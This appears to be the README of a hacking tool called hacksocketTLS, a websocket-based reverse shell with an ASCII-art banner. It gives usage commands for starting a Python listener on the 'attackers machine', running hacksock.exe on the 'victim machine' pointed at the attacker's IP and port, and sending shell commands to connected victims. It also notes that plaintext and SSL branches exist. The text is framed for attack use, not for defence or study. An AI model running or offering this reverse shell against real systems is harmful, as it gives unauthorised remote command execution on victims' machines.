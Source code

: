 ```
  _                _                   _        _ _______ _       _____ 
 | |              | |                 | |      | |__   __| |     / ____|
 | |__   __ _  ___| | _____  ___   ___| | _____| |_ | |  | |    | (___  
 | '_ \ / _` |/ __| |/ / __|/ _ \ / __| |/ / _ \ __|| |  | |     \___ \ 
 | | | | (_| | (__|   <\__ \ (_) | (__|   <  __/ |_ | |  | |____ ____) |
 |_| |_|\__,_|\___|_|\_\___/\___/ \___|_|\_\___|\__||_|  |______|_____/ 
```

A websocket based reverse shell tool.

# To use:

On the attackers machine use the python server

`python3 hacksock-srv.py --host [Listening IP] --port [Listening Port] [--ssl]`

On the victim machine, either alter the source so no arguments are required or run the below:

`hacksock.exe [attackers IP] [port]`

Use `ls` to see all websocket connections.

use `[id]:[Command]` to run commands i.e. if only one connection then `1:dir` will run dir on the first connection listed in `ls`.

# Bugs:

- Code was written in a field therefore full of bugs
- The server accepts multiple connections however functionality is hit and miss :P
- Feel free to use and improve. #fixmycode

# Branches:
- plaintext: Plain-text websocket client
- secure/main: SSL websocket client

The python server supports both as detailed using the `--ssl` switch.